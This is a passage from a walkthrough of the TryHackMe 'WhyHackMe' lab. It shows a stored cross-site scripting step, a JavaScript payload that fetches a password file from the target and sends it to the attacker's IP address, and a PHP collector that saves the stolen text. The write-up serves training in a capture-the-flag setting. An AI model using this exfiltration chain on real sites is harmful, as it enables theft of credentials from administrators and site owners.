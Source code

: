 
We can leave a comment as that user so that when the admin checks the comments, our Javascript file is imported and executed.
![](/assets/img/posts/walthrough/tryhackme/2024-10-26-whyhackme/message.png)

Now, we can write the javascript file below that will access the `/dir/pass.txt` file once the page is loaded, encode it, and send it to the `index.php` file on our server using a GET request with `c` parameter.
```js
window.onload = function() {
            const textFileUrl = 'http://127.0.0.1/dir/pass.txt';
            const sendUrl = 'http://10.21.68.180:8000/index.php';

            fetch(textFileUrl)
                .then(response => {
                    if (response.ok) {
                        return response.text();
                    }
                })
                .then(textContent => {
                    const encodedContent = encodeURIComponent(textContent);
                    const fullUrl = `${sendUrl}?c=${encodedContent}`;
                    return fetch(fullUrl);
                })
        };
```
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ nano script.js 
```

Now let's create the `index.php` file that will accept the encoded content of the GET request from the Javascript file, decode it, and store the decoded content into a file. 
```php
<?php
if (isset($_GET['c'])) {  
    $content = urldecode($_GET['c']);
    $file = fopen("pass.txt", "a+");
    fputs($file, "{$content}\n");
    fclose($file);
}
?>
```
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ cat index.php 
```
